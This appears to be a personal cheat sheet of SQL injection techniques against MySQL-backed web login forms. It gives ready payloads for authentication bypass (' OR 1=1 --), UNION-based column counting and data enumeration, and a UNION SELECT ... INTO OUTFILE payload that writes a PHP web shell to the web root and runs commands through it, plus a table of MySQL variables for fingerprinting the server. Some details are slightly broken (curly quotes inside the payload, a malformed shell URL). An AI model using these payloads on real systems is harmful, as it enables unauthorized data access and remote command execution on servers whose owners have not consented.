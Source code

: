 # SQL Injection

* Cause Error on the Web Application by input quote '

```text
SELECT * FROM users WHERE username = ''' AND password = ''
```

* Data Exfiltration by input ' OR 1=1 --

```text
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

* Gaining Shell

First check the number of column with NULL or 1

```text
SELECT * FROM users WHERE username = 'a' UNION SELECT NULL, NULL; --' AND password = ''
```

Use the INTO FILE to create a php file in the web server

```text
SELECT * FROM users WHERE username = 'a' 
UNION SELECT “<? system($_REQUEST[‘cmd’]); ?>”, NULL INTO OUTFILE 'var/www/cmd.php';--' AND password = ''
```

Access the web page

```text
http://yourIPaddress/cmd.php?=[command]
```

## SQL Injection Basic Techniques

Check number of columns by order by

```text
' ORDER BY 1;#
' ORDER BY 2;#
' ORDER BY 3;#
```

Check the field appear

```text
' & 0 union select 1,2,3;#
```

IF the developer only allow one row

```text
' & 1 union select 1,2,3;#
```

MySQL database schema



```text
Variable/Function		Output
@@hostname	:	Current Hostname
@@tmpdir	:	Tept Directory
@@datadir	:	Data Directory
@@version	:	Version of DB
@@basedir	:	Base Directory
user()	:	Current User
database()	:	Current Database
version()	:	Version
schema()	:	current Database
UUID()	:	System UUID key
current_user()	:	Current User
current_user	:	Current User
system_user()	:	Current Sustem user
session_user()	:	Session user
@@GLOBAL.have_symlink	:	Check if Symlink Enabled or Disabled
@@GLOBAL.have_ssl	:	Check if it have ssl or not
```


Can use follow query to display (Example)

```text
' & 1 union select 1,@@hostname,3;#
```



